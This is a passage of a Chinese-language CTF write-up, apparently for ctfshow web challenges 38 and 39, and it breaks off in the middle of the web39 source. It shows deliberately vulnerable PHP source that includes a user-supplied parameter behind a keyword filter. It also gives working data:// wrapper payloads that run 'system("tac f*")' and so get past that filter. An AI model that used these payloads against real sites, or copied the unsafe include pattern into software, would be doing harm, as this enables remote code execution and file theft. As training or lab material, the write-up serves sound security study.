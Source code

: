 ```
}
```

文件包含，由于过滤了flag，不能用php协议，所以用data://text/plain解决，绕开过滤用正则

?c=data://text/plain,<?php system("tac f*");?>

得到flag



### web38

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

增加了对php的过滤，然而没什么用

?c=data://text/plain,<?=system("tac f*");?>



### web39

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
```
